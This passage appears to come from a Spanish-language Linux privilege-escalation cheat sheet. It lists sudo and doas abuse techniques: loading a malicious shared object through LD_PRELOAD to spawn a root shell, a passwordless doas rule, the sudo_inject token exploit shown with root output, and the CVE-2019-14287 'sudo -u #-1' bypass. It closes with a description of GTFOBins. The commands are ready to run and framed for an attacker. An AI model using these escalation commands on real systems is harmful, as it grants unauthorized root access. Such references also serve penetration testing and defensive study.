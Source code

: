 Ejecute cualquier binario con `LD_PRELOAD` para generar un shell:

```sh
sudo LD_PRELOAD=<full_path_to_so_file> <program> , e.g: sudo LD_PRELOAD=/tmp/shell.so find
```

## Doas

Existen algunas alternativas al binario sudo como `doas` para OpenBSD, recuerda revisar su configuración en `/etc/doas.conf`

```sh
permit nopass demo as root cmd vim 
```

### `sudo_inject`

Using https://github.com/nongiach/sudo_inject

```sh
$ sudo whatever
[sudo] password for user:   

# Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.

sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)

# id uid=0(root) gid=0(root) groups=0(root)
```

Diapositivas de la presentación:

https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf
## CVE-2019-14287

```
# Exploitable when a user have the following permissions (sudo -l)

(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this 
sudo -u #-1 /bin/bash 
sudo -u #4294967295
```
# GTFOBins

GTFOBins es una lista seleccionada de archivos binarios de Unix que un atacante puede explotar para eludir las restricciones de seguridad locales.

El proyecto recopila funciones legítimas de los binarios de Unix de las que se puede abusar para romper shells restringidos, escalar o mantener privilegios elevados, transferir archivos, generar enlaces e invertir shells y facilitar otras tareas posteriores a la explotación.
